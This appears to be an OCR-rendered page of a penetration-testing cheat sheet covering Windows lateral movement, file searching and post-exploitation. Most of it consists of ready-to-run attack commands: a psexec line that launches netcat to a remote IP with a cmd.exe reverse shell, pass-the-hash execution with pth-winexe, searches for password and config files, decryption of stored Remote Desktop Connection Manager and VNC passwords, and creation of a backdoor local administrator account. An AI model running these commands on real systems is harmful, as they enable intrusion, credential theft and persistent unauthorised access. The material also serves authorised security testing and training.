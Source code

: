 CMD

# Requires interactive console
runas /user:userName cmd.exe

PsExec

psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe

Pth-WinExe

pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe

Recursively Find Hidden Files: Windows

dir /A:H /s "c:\program files"

General File Search

# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf

Post-Exploitation & Maintaining Access
Browsing Registry Hives

hivesh /registry/file

Decrypting RDG Passwords

Remote Desktop Connection Manager passwords can be decrypted on the same computer/account they were encrypted:

Copy-Item 'C:\Program Files (x86)\Microsoft\Remote Desktop Connection Manager\RDCMan.exe C:\temp\RDCMan.dll’
Import-Module C:\temp\RDCMan.dll
$EncryptionSettings = New-Object -TypeName RdcMan.EncryptionSettings
[RdcMan.Encryption]::DecryptString($PwdString, $EncryptionSettings)

Decrypting VNC Password

wine vncpwdump.exe -k key

Creating User and Adding to Local Administrators

net user spotless spotless /add & net localgroup Administrators spotless /add

